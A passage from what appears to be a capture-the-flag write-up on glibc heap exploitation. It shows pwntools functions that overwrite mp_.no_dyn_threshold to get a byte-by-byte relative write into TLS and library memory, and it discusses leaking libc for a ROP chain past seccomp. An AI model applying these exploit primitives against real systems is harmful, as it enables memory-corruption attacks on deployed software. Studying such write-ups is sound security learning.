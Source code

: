 Luckily for us, there is a way to permanently disable this behaviour. 
If you look back at the attributes for the `mp_` struct, the `no_dyn_threshold` should stick out. It allows developpers to do just what we want to do at the moment : disabling the automatic incrementation of the `mmap_threshold`.

Armed with this knowledge, we can write a simple function to allow us to `mmap` chunks to our heart's desire : 

```python
def enable_relative_write():
    p.recvuntil(b">")
    p.sendline(b"1")
    p.recvuntil(b">")
    p.sendline(b"134512") # 0x20d70
    p.recvuntil(b">")
    p.sendline(b"2061208") # offset of mp_.no_dyn_threshold
    p.recvuntil(b">")
    p.sendline(b"1")
    p.recvuntil(b">")
    p.sendline(b"2")
```

Now we can write as many bytes as we want in the tls or librairies memory space.

```python
def relative_write(byte, offset):
    p.recvuntil(b">")
    p.sendline(b"1")
    p.recvuntil(b">")
    p.sendline(b"135168") # 0x21000
    p.recvuntil(b">")
    p.sendline(str(offset).encode())
    p.recvuntil(b">")
    p.sendline(str(byte).encode())
    p.recvuntil(b">")
    p.sendline(b"2")
```

For more information about the `mp_` struct, see the [source code](https://elixir.bootlin.com/glibc/glibc-2.37.9000/source/malloc/malloc.c#L1911)

### Leaking libc

The binary is protected with `seccomp`, meaning we will need to write a little ropchain in order to read the flag. And, as the binary is fairly small, it does not contain all the gadgets we need in order to do so. 
Our best bet is to find a way to leak the `libc` base address so we can use all the gadgets found in library, but how exactly can we do this ?

The only time that the program prints user data, it `exits` right after, so any leak we could gain during this process is useless to us.
One reasonable solution would be to attempt an FSOP on `_IO_2_1_stdout_` and use it as a read primitive as described [here](https://github.com/nobodyisnobody/docs/tree/main/using.stdout.as.a.read.primitive). However, as we are writing our bytes one by one instead of all at the same time, we cannot use this method.
